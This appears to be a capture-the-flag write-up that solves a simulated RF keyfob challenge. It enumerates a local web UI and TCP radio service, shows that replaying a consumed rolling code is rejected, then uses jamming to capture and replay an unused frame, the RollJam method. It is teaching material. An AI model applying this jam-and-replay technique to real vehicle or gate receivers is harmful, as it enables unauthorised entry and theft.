





        <font size="10">Saltlock Drift</font>

3<sup>rd</sup> June 2026

Prepared By: Lean

Challenge Author(s): Lean

Difficulty: <font color=orange>Medium</font>

Classification: Official

# [Synopsis](#synopsis)

Enumerate the web UI and RF service, observe the rolling counter, prove consumed replay is rejected, jam the physical fob unlock, replay the preserved unused frame, and recover the flag.

## Description

Stormbound outriders recovered a salt crusted gatecar outside the Sunken Causeway. Its remote lock still listens across a shared band that the wardens use during convoy checks. Reach the channel, study the signals, and reveal the token through a replay attack.

## Skills Required

- Basic TCP service enumeration
- Basic browser and netcat workflow
- Basic understanding of RF replay attacks
- Ability to reason about one-time counters and receiver state
- Ability to extract and reuse hex encoded radio frames from text output

## Skills Learned

- Observing a shared RF control channel
- Identifying OOK style remote-keyless-entry traffic from service metadata
- Identifying why a consumed rolling code cannot be replayed
- Using channel jamming to preserve a fresh rolling-code frame
- Abusing RollJam against a rolling-code receiver
- Replaying an unused frame against a receiver window

## Application Overview

From a black-box perspective the target exposes an HTTP interface and one raw TCP service. The HTTP interface presents a physical keyfob and the visible lock state of a convoy gatecar. The TCP service behaves like a shared RF service channel where it accepts operator commands and mirrors radio frames generated by the physical fob.

The important observation is that normal physical fob use is not enough for the flag. A physical unlock can open the door, but the challenge objective requires proving that the radio channel can be abused by a separate transmission.

No downloadable artifacts are required for the solve path. Players interact with the browser UI and the RF TCP service only.

Initial UI



## Step-by-Step Attack Path

---

### Step 1 - Enumerate The Exposed Services

Start with a fast TCP scan. Service-version probing may label custom services incorrectly, so first confirm what is reachable.

Manual enumeration

```bash
nmap -sT -Pn -p 8080,4700 127.0.0.1
```

Useful output

```text
Starting Nmap 7.98 ( https://nmap.org ) at 2026-06-06 19:09 +0300
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00013s latency).

PORT     STATE SERVICE
4700/tcp open  netxms-agent
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.02 seconds
```

Open the HTTP service in a browser

[http://127.0.0.1:8080/](http://127.0.0.1:8080/)

Initial black-box observation


The UI shows a physical keyfob, receiver state, a counter, the RF band, an event log, and a signal analyzer. At this point I do not assume any source-code knowledge. The visible facts are listed below.

- Door is `locked`
- Channel is `clear`
- Counter has a randomized value
- Band is `433.920 MHz`
- Event log only says the receiver is armed

### Step 2 - Enumerate The RF Channel

Connect with netcat and read the banner before transmitting anything.

Manual enumeration

```bash
nc 127.0.0.1 4700
```

Useful output from this run

```text
RiverGate RF-433 shared service channel
freq=433.920MHz modulation=OOK encoding=raw-hex
commands: HELP, STATUS, JAM ON, JAM OFF, TX <hex>, QUIT
physical keyfob frames are mirrored here as RX lines
STATUS lock=locked jammer=off last_counter=4996 flag=hidden freq=433.920MHz modulation=OOK
```

The important enumeration detail is `last_counter=4996`. This value is randomized each time the service starts, so I recorded it before touching the keyfob.

Check the command set

```text
STATUS
HELP
```

Useful output

```text
STATUS lock=locked jammer=off last_counter=4996 flag=hidden freq=433.920MHz modulation=OOK
HELP commands: STATUS | JAM ON | JAM OFF | TX <hex> | QUIT
TX expects one complete RF frame as hexadecimal bytes
```

This tells us the TCP service is both a receiver monitor and a transmitter interface. It mirrors fob frames as `RX ... raw=<hex>` and accepts custom transmissions as `TX <hex>`.

The banner also gives the first useful hardware clue

```text
freq=433.920MHz modulation=OOK encoding=raw-hex
```

At this point I looked up OOK in the context of RF remotes. OOK means on-off keying, a simple ASK variant where the carrier is present for one logic state and absent for the other. These diagrams match the style of signal shown by the browser analyzer.


Reference material used at this step

- [OOK vs FSK vs ASK modulation](https://www.rfwireless-world.com/terminology/ook-vs-fsk-vs-ask-modulation)
- [Amplitude-shift keying ASK](https://www.open.edu/openlearn/mod/oucontent/view.php?id=66030&section=1.4)

### Step 3 - Map The Frame Format From Observed Traffic

Before attacking, press the physical fob once and observe what the RF channel prints.

Manual action

```text
Click Unlock in the browser UI while netcat stays connected to port 4700.
```

RF output

```text
RX freq=433.920MHz modulation=OOK rssi=-46dBm raw=AAAAAAAA2DD4534C5402138581AB315E0D04
CAR ACCEPT source=fob button=unlock counter=4997 result=owner_unlock
```

UI after the physical fob unlock


The counter moved from `4996` to `4997`. That suggests the receiver is not using a fixed code only, but the replay test below is needed before trusting that assumption.

The frame can be split without knowing the cryptographic key. This snippet was used only to label fields, not to forge a valid code.

```python
frame_hex = "AAAAAAAA2DD4534C5402138581AB315E0D04"
raw = bytes.fromhex(frame_hex)

print("preamble", raw[0:4].hex().upper())
print("sync", raw[4:6].hex().upper())
print("serial", raw[6:9].hex().upper())
print("button", raw[9])
print("counter", int.from_bytes(raw[10:12], "big"))
print("hopping_code", raw[12:16].hex().upper())
print("crc", raw[16:18].hex().upper())
```

Expected output

```text
preamble AAAAAAAA
sync 2DD4
serial 534C54
button 2
counter 4997
hopping_code 81AB315E
crc 0D04
```

The important part is the counter. It advanced by one from the `STATUS` output. The hopping-code field cannot be predicted from the black-box interface, so the attack should preserve a real valid frame instead of trying to generate one.

### Step 4 - Prove A Normal Replay Is Rejected

A fixed-code remote would unlock if we sent the same `raw=` value again. Rolling-code systems should reject that because the receiver already consumed the counter.

Copy the `raw=` value from the accepted `RX` line and place it after `TX`.

Send it in the RF console

```text
TX AAAAAAAA2DD4534C5402138581AB315E0D04
```

Useful output

```text
TX freq=433.920MHz modulation=OOK raw=AAAAAAAA2DD4534C5402138581AB315E0D04
CAR REJECT source=attacker button=unlock counter=4997 reason=replay_or_old_counter
```

UI after the replay rejection



This is the critical proof. Simply replaying a code that the receiver already accepted is not enough.

This is where the observed behavior matches rolling-code receiver documentation. Microchip KEELOQ material describes a transmitted synchronization counter that the decoder uses to distinguish fresh transmissions from old ones. The RF service exposes the same idea directly as `counter=<number>` in the accepted and rejected output.

Reference material used at this step

- [KEELOQ code hopping overview](https://www.microchip.com/en-us/application-notes/tb003)
- [KEELOQ simple code hopping decoder](https://ww1.microchip.com/downloads/en/AppNotes/00663C.pdf)

### Step 5 - Restore A Locked Baseline

The physical unlock opened the door but did not reveal the flag. Lock it again so the later successful replay is easy to see.

Manual action

```text
Click Lock in the browser UI.
```

Useful output

```text
RX freq=433.920MHz modulation=OOK rssi=-38dBm raw=AAAAAAAA2DD4534C54011386E8393D4ED0F4
CAR ACCEPT source=fob button=lock counter=4998 result=locked
```

UI after relocking



The receiver counter is now `4998`, and the door is locked again.

### Step 6 - Enable Jamming

After proving that a consumed code cannot be replayed, the next useful command from `HELP` is `JAM ON`. The relevant real-world attack model is RollJam. It blocks the receiver while still observing the fob, which leaves a valid rolling-code frame unused by the receiver.

Reference material used at this step

- [Bypassing rolling code systems](https://www.rtl-sdr.com/bypassing-rolling-code-systems-codegrabbing-rolljam/)
- [RF hacking rolling-code bypass](https://hackaday.com/2016/03/06/rf-hacking-how-to-bypass-rolling-codes/)
- [RollJam coverage](https://arstechnica.com/information-technology/2015/08/meet-rolljam-the-30-device-that-jimmies-car-and-garage-doors/)
- [OpenSesame project](https://samy.pl/opensesame/)
- [DEF CON 23 talk materials](https://samy.pl/defcon2015/)

Video reference for the attack idea

[](https://www.youtube.com/watch?v=xAggMOEazDI)

[RollJam demonstration video](https://www.youtube.com/watch?v=xAggMOEazDI)

The service exposes the blocking action as `JAM ON`.

Manual command

```text
JAM ON
```

Useful output

```text
CH STATE jammer=on freq=433.920MHz
```

UI with the channel jammed



The event log shows the jammer state, and the analyzer changes into continuous noise. The line color stays the same, but the waveform becomes noisy.

### Step 7 - Capture An Unused Physical Unlock

Now press the physical unlock button while the channel is jammed.

Manual action

```text
Click Unlock in the browser UI while JAM ON is active.
```

Useful output

```text
RX freq=433.920MHz modulation=OOK rssi=-37dBm raw=AAAAAAAA2DD4534C540213874D17B02C48F3
CAR MISS source=fob button=unlock reason=channel_jammed
```

UI after the jammed fob press


The output contains the decisive difference.

```text
CAR MISS source=fob button=unlock reason=channel_jammed
```

The RF channel observed the fob frame, but the receiver did not consume it. The frame counter is `4999`, which is higher than the current receiver counter, and it is still unused.

Copy the `raw=` value from the jammed `RX` line and place it after `TX`.

```text
TX AAAAAAAA2DD4534C540213874D17B02C48F3
```

### Step 8 - Turn Jamming Off Before Replaying

If the jammer remains enabled, our own TX frame is also lost.

Manual command

```text
JAM OFF
```

Useful output

```text
CH STATE jammer=off freq=433.920MHz
```

This is the simplest mistake to make during the solve. `JAM ON` is for preserving the physical frame. `JAM OFF` is required before sending the preserved frame.

### Step 9 - Replay The Preserved Unused Frame

Transmit the exact raw frame captured while jammed.

```text
TX AAAAAAAA2DD4534C540213874D17B02C48F3
```

Useful output

```text
TX freq=433.920MHz modulation=OOK raw=AAAAAAAA2DD4534C540213874D17B02C48F3
CAR ACCEPT source=attacker button=unlock counter=4999 result=exploit_unlock
```

UI after the preserved-frame replay



The door is unlocked and the event log shows the flag.

```text
HTB{REDACTED}
```

## Why The Attack Works

The failed replay proves that the receiver rejects consumed counters.

```text
CAR REJECT source=attacker button=unlock counter=4997 reason=replay_or_old_counter
```

The jammed capture proves that a valid fob frame can be observed without being consumed.

```text
CAR MISS source=fob button=unlock reason=channel_jammed
```

The final replay works because the preserved frame is both valid and still fresh.

```text
CAR ACCEPT source=attacker button=unlock counter=4999 result=exploit_unlock
```

This matches the RollJam research model. The attack does not break the hopping-code algorithm. It manipulates receiver state by preventing the receiver from hearing a valid fob transmission.
